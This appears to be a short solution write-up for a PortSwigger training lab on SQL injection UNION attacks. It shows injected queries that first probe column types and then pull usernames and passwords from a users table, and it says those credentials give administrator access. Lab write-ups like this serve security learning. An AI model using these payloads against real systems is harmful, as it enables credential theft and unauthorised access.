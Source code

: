 ## Lab Description: SQL injection UNION attack, retrieving data from other tables

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/881f3cef-4ad9-468b-aaa8-1a7e4c358540)

Solution:

Here, The database contains a different table called users, with columns called username and password.


``` SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' --  ```

Since both the columns contain text data, we can retreive username and password from the users table of the database without any concatination method. 

``` SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username,password FROM users -- ```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b8343270-117e-4a0b-b27e-38dc62f286b4)

![Screenshot 2024-01-27 220937](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b75285ff-204c-4718-8b6d-bc711d046783)

Now, We have the credentials of username and password and with that we can access it as administrator.


![Screenshot 2024-01-27 221402](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4e6211c9-9fae-4fee-ac28-c144d78a41b4)


